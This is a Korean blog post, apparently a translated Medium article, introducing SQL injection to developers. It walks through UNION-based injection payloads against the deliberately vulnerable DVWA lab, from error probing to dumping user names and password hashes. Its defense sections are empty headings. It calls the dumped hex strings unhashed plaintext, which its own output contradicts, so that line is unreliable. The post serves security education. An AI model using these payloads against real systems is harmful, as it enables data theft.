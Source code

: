 ```yaml
---
layout: post
title: Medium - SQL injection for developers
description: >
  <a href="https://medium.com/swlh/sql-injection-for-developers-9e0d91ad8cbf"> 원문 - Omer Hamerman </a>
author: author
comments: true
---
```


Trend 파악을 위한 Medium 기고문 포스팅 - 개발자를 위한 SQL 인젝션; 여러분의 프로그램에서 어떻게 테스트하고 보호할 수 있는지 기본을 알아봅시다.

<center>
<img src="https://miro.medium.com/max/2000/1*GU5VIo93vmfZSMgAtR4ijg.jpeg"/>
</center>

Originally published at <a href="https://omerxx.com/sql-injection-intro">https://omerxx.com/sql-injection-intro</a>

SQL Injection (SQLi)는 2018-2019년 동안 온라인 공격 중 72%가 넘는 비중을 차지 했습니다. 웹 개발자들이 가장 많이 받는 공격이 바로 SQLi 입니다. OWASP Top 10에도 SQL 인젝션 공격이 상위권에 등록되었죠, SQLi는 아주 흔하고 자동화하기도 쉬워서 치명적인 피해를 입힐 수 있습니다.

이 포스트는 제가 개인적으로 알고 싶었던 것들에 대해서 자료를 수집하며 노력을 했던 기록입니다. 반복적으로 자료를 찾고 짧은 비디오를 보기도 했지만 쉽지는 않았죠. SQL 인젝션을 이해하려면 그냥 문서를 읽는 것으론 부족하고 직접 실행을 해보는 수고를 들여야 합니다. 여기에 문맥들은 작고 방대하기 때문에 꽤나 고생을 했죠.

SQL 인젝션은 간단한 개념이지만 엄청나게 변형이 많습니다. 얼마나 많을까요? SQL 디비의 종류, 다양한 웹폼 형식, 개발자 실수를 모두 행렬곱셈 한거 만큼 많을 겁니다.

## What is it
SQLi는 웹 응용프로그램의 데이터에 몰래 접근하는 방법입니다. SQLi를 통해 디비의 데이터를 가져올 수도 있고 소스코드나 다른 민감정보를 가져올 수도 있습니다. 공격을 수행하는 데는 아주 간단한 해킹 도구인 웹 브라우저만 있으면 됩니다. 아주 배우기 쉽고 실행 및 접근이 용이하죠.

여러 종류의 SQLi 공격 방식이 있지만 가장 일반적인 것인 클라이언트 브라우저에서 HTTP 리퀘스트를 날릴 때 입니다. 개발자가 유저에게 `User Id`같은 것을 입력하도록 놔둔 곳 말이죠. 여기에 공격자는 SQL 구문으로 인젝션 공격을 시도할 수 잇습니다. `1`을 입력하는 대신에 다음처럼 입력을 하는 경우를 고려해봅시다.
```
1' UNION SELECT password FROM users UNION SELECT '1
```

만약 백엔드 코드에서 입력값의 컨텍스트를 제대로 고려하지 않으면 해당 입력값을 쿼리처럼 이용할 수 있습니다. 위의 코드의 결과로 간단한 웹 폼에서 데이터베이스의 정보를 뽑아내게 되는 것이죠. 만약 이게 성공한다면 공격자는 실제 서버의 접속을 할 필요도 없습니다. 아주 '합법적'으로 데이터를 뽑아내고 사용할 수 있는 것이죠.

## How to attack
실제 예제를 만들어 보기 위해서 저는 <a href="http://dvwa.co.uk/">Damn Vulnerable Web Application</a> 을 사용할 것입니다. 이것은 빠르게 다양한 테스트를 해볼 수 있으니 얼른 도커를 사용해서 시작해봅시다.

```
docker run --rm -it -p 8080:80 vulnerables/web-dvwa

# 다음 로컬 주소에서 로그인 화면을 볼 수 있습니다. @ http://localhost:8080
#
# 브루트포스 공격이 통할 수 있겠지만 일단 지금은 간단하게 다음과 같이 설정합시다.:
# 1. Login - User: "admin", Password: "password"
# 2. Click "Create / Reset Database"
# 3. 다 끝났습니다 다시 로그인 하세요.
```

## Poking for holes
메뉴의 모듈 중에 SQL 인젝션을 선택합니다. 아무거나 입력해보면 요청받은 파라미터가 UserId 라는 것을 알 수 있으며 처음 선택지는 1을 입력해 보는 것입니다.

```
1

# ID: 1
# First name: admin
# Surname: admin
```

우리의 입력값에 대해 ID, First name, Surname 3개의 필드가 응답이 온것을 볼 수 있습니다. 그러면 `'`를 입력해서 중단을 해봅시다.


```
'

# Output:
# You have an error in your SQL syntax; check the manual that
# corresponds to your MariaDB server version for the right
# syntax to user near ''''' at line 1
```

여기서 이 리스폰스는 굉장한 가치가 있습니다. 응용프로그램이 이렇게 백엔드와 연관된 에러메시지를 보여주는 것은 공격자에게 생생한 피드백을 주는 것이죠. 방어의 수단 중 하나로 응용프로그램은 어떤 정보도 담지 않은 일반적인 메시지를 에러로 리턴하기도 합니다. 하지만 공격자들은 여전히 'blind SQLi'라고 불리는 공격을 실행할 수 있습니다.

다시 우리의 인젝션 공격으로 돌아가봅시다. `'` 을 사용했더니 앱이 아주 의미있는 메시지를 리턴해줬죠. `'''''` 이 부분을 보시면 인젝션이 통해서 DB 엔진의 리스폰스가 온 것을 알 수 있습니다. 따라서 우리는 여러가지 시도를 하면서 시각적인 피드백을 받을 수 있는 것이죠.

SQL `UNION` 구문은 아주 일반적인 헬퍼입니다. 이걸 사용해서 공격자들은 추가적인 정보를 통합해서 그들에게 결과로 나오도록 할 수 있습니다. 다음 구문을 실행해봅시다

```
1' UNION SELECT '2

# Output: The used SELECT statements have a different number of columns
```

자 그럼 먼저 입력값을 살펴봅시다.
* `1'`의 의미는 1로 구문을 종료하고 따옴표로 닫는다는 것입니다. 이렇게 기존의 SQL 쿼리의 로직 부분을 종료시킬 수 있어서 `'` 따옴표는 정확하게 이스케피으 되지 않으면 매우 위험합니다.
* `UNION SELECT '2` 는 UNION 구문으로 숫자를 선택하고 백엔드 코드에 있는 또다른 구문의 끝을 기다리는 따옴표입니다.

`UNION`을 사용하면 시스템의 동작방식을 살짝 비틀 수 있습니다. `UNION`이 있는 SQL 구문을 호출하면 디비 엔진은 결과를 하나의 집합으로 합치려고 합니다. 그렇게 하기 위해서는 모든 부분들이 같은 컬럼 넘버를 가져야 합니다.

그럼 다음과 같이 추가적인 컬럼을 입력해서 시도해 봅시다.

```
1' UNION SELECT 1,'2

# ID: 1' UNION SELECT 1, '2
# First name: admin
# Surname: admin
# ID: 1' UNION SELECT 1, '2
# First name: 1
# Surname: 2
```

짜잔! 인젝션이 성공했습니다. 물론 실제 데이터를 뽑아낸 것은 아닙니다. 뭔가 의미있는 작업을 하기 위해서는 계속 스키마를 탐구해야 하지만 어찌되었건 결국에는 될 것입니다.

* 처음으로 해야할 것은 쿼리 테이블로부터 디비의 이름을 알아오는 것입니다.

```
1' union select 2, table_schema from information_schema.tables union select 3,'4
```

* 이렇게 하면 "Surname" 아래에 "admin", "dvwa", "information_schema" 세개의 디비 이름을 가져올 수 있습니다.
* 우리는 `dvwa`에 관심이 있으므로 해당 디비의 스키마를 선택하겠습니다.

```
1' union select 2, table_name from information_schema.tables where
table_schema = 'dvwa' union select 3,'4
```

* 해당 쿼리는 "admin", "users", "guestbook" 세개의 테이블 이름을 가져옵니다.
* "Users" 테이블은 보통 유저 이름, 패스워드, 그리고 다른 개인 식별 정보들을 가지고 있는 것으로 추측할 수 있습니다. 여기다가 우리는 쿼리를 날릴겁니다.

```
1' union select 2, column_name from information_schema.columns
where table_name = 'users' union select 3,'4
```

* 이렇게 하면 컬럼 이름의 리스트를 응답으로 받게 됩니다. 그 중에 "user", "password" 컬럼이 아주 흥미로워 보이는 군요
* 그럼 바로 users 테이블에 쿼리를 날려보겠습니다.

```
1' union select user, password from users union select 1,2'

# ID: 1' union select user, password from users union select 1,2'
# First name: admin
# Surname: admin
# ID: 1' union select user, password from users union select 1,2'
# First name: admin # Surname : 5f4dcc3b5aa765d61d8327deb882cf99
# ID: 1' union select user, password from users union select 1,2'
# First name: gordonb # Surname : e99a18c428cb38d5f260853678922e03
# ID: 1' union select user, password from users union select 1,2'
# First name: 1337 # Surname : 8d3533d75ae2c3966d7e0d4fcc69216b
# ID: 1' union select user, password from users union select 1,2'
# First name: pablo # Surname : 0d107d09f5bbe40cade3de5c71e9e9b7
# ID: 1' union select user, password from users union select 1,2'
# First name: smithy # Surname : 5f4dcc3b5aa765d61d8327deb882cf99
# ID: 1' union select user, password from users union select 1,2'
# First name: 1 # Surname : 2

```

* 보셨습니까? 모든 유저의 이름과 패스워드를 리스트로 뽑아냈습니다. 놀랍게도 패스워드들은 그냥 해쉬도 안되어 있고 그냥 평문으로 되어있습니다.

## Security Level: Medium

### Quick setup to intercept with BurpSuite

## Security Level: High

## Blind SQLi

## Fragmented SQLi

## Automating things with sqlmap

## Defense

### WAF

### Self-defense

## Summary
*
